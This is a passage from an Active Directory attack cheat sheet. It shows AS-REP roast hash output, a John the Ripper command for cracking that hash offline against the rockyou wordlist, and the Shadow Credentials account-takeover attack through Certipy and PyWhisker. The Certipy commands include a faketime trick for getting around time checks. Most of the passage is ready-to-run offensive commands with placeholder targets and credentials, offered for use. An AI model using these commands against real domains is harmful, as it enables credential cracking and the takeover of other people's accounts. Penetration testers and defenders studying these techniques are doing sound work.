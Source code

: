 If a user is vulnerable, you will receive output that includes an AS-REP hash for that user, which looks something like this:

```
$krb5asrep$...$user@DOMAIN
```

This hash can be saved to a file for offline cracking.

### Cracking the hash:

You can use a tool like John the Ripper to crack the captured AS-REP hash locally:

```
john --format=krb5asrep hashfile.txt --wordlist=/usr/share/wordlists/rockyou.txt
```


## Shadow Credentials Attack

Attack to take over AD accounts by abusing msDS-KeyCredentialLink attribute (requires **GenericWrite** rights).

### Using Certipy

- First sync time:

```
sudo ntpdate VICTIM_IP
```

- Auto shadow attack:

```
certipy shadow auto -username USER@DOMAIN -p PASSWORD -account TARGET_USER -target DC
```

- Use faketime to bypass time restrictions:

```
faketime 'YYYY-MM-DD HH:MM:SS' certipy shadow auto -u USER@DOMAIN -p PASSWORD -account TARGET_USER -target DC
```

- Find users vulnerable to shadow credentials attack.

```
certipy find -vulnerable -u USER -hashes HASH -dc-ip DC_IP -stdout
```

### Using PyWhisker

Python alternative for shadow credentials attack.

```
pywhisker.py -d DOMAIN -u USER -p PASSWORD --target TARGET --action add
```

## Other Uses of Impacket
